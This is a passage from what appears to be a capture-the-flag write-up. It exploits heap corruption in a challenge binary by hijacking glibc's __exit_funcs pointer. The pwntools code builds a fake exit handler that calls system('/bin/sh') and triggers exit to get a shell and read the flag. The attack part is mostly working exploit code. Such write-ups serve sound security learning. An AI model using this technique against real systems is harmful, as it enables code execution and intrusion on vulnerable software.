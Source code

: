 ## 5. Gain control of libc's `__exit_funcs` pointer 

Again, using the arbitrary allocation primitive in combination with the libc leak we can allocate a chunk that gives us control over the `__exit_funcs` pointer. (It's in the `.data` section of libc) and can be found in a disassembler/debugger via looking at the params of `exit`.

```python
# Allocate mem at __exit_funcs so we can overwrite the pointer with our own heap chunk
delete(11)
delete(14)
update(11, b"AAAAAAAACCCCCCCC")
delete(11)
chunk_pos = deobfuscate(u64(read(11)[:8]))
update(11, p64(obfuscate(__exit_funcs-0x10, chunk_pos)))
create(15, b"") # freed later
create(16, b"") # __exit_funcs chunk (offset -0x10 so we dont corrupt)
```

## 6. Create our fake `__exit_funcs`.

At this point, I had allocated chunk `18` but was not using it for anything, and its base address is a constant offset from the heap base (which we leaked earlier remember)

```python
# Write fake exit_function entry to chunk 18 since we're not using it for anything
# and we know its base address due to the earlier heap base leak.
###########  next   | count  | type (cxa) | addr (system@libc)                | arg                                | not used
onexit_fun = p64(0) + p64(1) + p64(4)     + encrypt(libc.sym["system"], key)  + p64(next(libc.search(b"/bin/sh"))) + p64(0)
update(18, onexit_fun)
CHUNK_EIGHTEEN_ADDR = heap_base + 0x2e0
log.success(f"wrote custom exit_functions @ {hex(CHUNK_EIGHTEEN_ADDR)}")
```

## 7. Trigger our payload

There are two steps to this...

**1. Overwrite the libc `__exit_funcs` pointer with the pointer to our fake entry**
```python
# Overwrite __exit_funcs (need to rewrite but should work, check in gdb)
update(16, read(16)[:0x10] + p64(CHUNK_EIGHTEEN_ADDR))
```

**2. Trigger a call to exit**
```python
# trigger payload (entering 0 calls exit) and get flag
io.sendlineafter(b"> ", b"0")
io.sendline(b"cat flag.txt")
try:
    log.success(io.recvuntil(b"}").decode())
    io.close()
except:
    exit(1)
```
